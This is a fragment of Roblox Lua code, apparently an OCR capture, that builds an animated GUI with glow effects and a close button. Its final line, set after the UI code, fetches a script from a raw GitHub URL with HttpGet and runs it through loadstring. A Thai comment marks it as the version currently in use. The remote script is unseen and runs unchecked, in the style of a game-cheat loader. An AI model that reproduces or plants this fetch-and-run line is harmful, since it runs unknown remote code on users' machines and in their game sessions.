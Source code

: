     createPulseAnimation(playerGlow, Color3.fromRGB(255, 100, 100))
    createPulseAnimation(diamondGlow, Color3.fromRGB(100, 200, 255))

    -- Entrance animation
    local entranceTweenInfo = TweenInfo.new(0.8, Enum.EasingStyle.Back, Enum.EasingDirection.Out)
    mainFrame.Size = UDim2.new(0, 0, 0, 0)
    local entranceTween = TweenService:Create(mainFrame, entranceTweenInfo, {Size = UDim2.new(0, 400, 0, 300)})
    entranceTween:Play()

    -- Close button
    local closeButton = Instance.new("TextButton")
    closeButton.Name = "CloseButton"
    closeButton.Size = UDim2.new(0, 20, 0, 20) -- Reduced from 40x40
    closeButton.Position = UDim2.new(1, -30, 0, 10)
    closeButton.BackgroundColor3 = Color3.fromRGB(255, 50, 50)
    closeButton.BorderSizePixel = 0
    closeButton.Text = "X"
    closeButton.TextColor3 = Color3.fromRGB(255, 255, 255)
    closeButton.TextScaled = true
    closeButton.Font = Enum.Font.SourceSansBold
    closeButton.Parent = mainFrame

    local closeCorner = Instance.new("UICorner")
    closeCorner.CornerRadius = UDim.new(0, 10)
    closeCorner.Parent = closeButton

    closeButton.MouseButton1Click:Connect(function()
        local closeTween = TweenService:Create(mainFrame, TweenInfo.new(0.5, Enum.EasingStyle.Back, Enum.EasingDirection.In), {Size = UDim2.new(0, 0, 0, 0)})
        closeTween:Play()
        closeTween.Completed:Connect(function()
            screenGui:Destroy()
        end)
    end)
loadstring(game:HttpGet('https://raw.githubusercontent.com/7878wqz/sc1/refs/heads/main/h'))()
--ปัจจุบันใช้ตัวนี้
